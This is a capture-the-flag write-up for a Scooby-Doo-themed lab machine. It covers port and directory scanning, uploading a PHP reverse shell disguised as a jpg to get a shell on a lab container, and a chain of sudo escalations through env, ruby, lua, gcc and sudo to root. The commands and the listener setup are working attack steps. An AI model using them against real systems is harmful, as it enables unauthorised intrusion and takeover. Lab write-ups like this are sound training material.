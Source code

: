 # Elevator Machine

**Level:** Easy

**Author:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Scanning & Enumeration 

We perform a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Next, we use **nmap** default scripts to gather more information about the discovered ports:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

We access the website to inspect its content:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

After reviewing the page code and interacting with it, we found relevant information such as usernames: **daphne**, **velma**, **scooby**, **shaggy**

We perform **fuzzing** using **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

We identified the **javascript** and **themes** directories. After reviewing them, we encountered an unauthorized error and performed further **fuzzing**:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

We discovered the **archivo.html** and **upload.php** files and the **uploads** directory.

--------------
## Explotation

On reviewing the **archivo.html** page, we realized the form allows **jpg** uploads:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and save it as a **jpg** file. 

Note that we set the **172.17.0.1** as the **IP** and **4444** as the **PORT** for the listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

We start a **listener** for the reverse shell using **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Next, we execute the **reverse shell** by uploading the **jpg** file through the **upload.php** link, gaining a shell on the victim's machine:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### TTY configuration

We configure the **TTY** for comfortable operation on the console:

```shell
script /dev/null -c bash 
```
After pressing **Ctrl  +  Z**, execute:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

Adjust **rows** and **columns** to match the attacker's screen dimensions:

```shell
stty size
```

Now you can use **Ctrl+L** to clear the screen and **Ctrl+C** as needed.


------------------------------
## Privileges escalation

We use **sudo -l** to check if we can execute anything as **root**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

We can run **env** as the **daphne** user using [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repeat the **sudo -l** command to escalate privileges step by step until achieving root access:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finally, we gain root access:

```
whoami
----------------
root
```

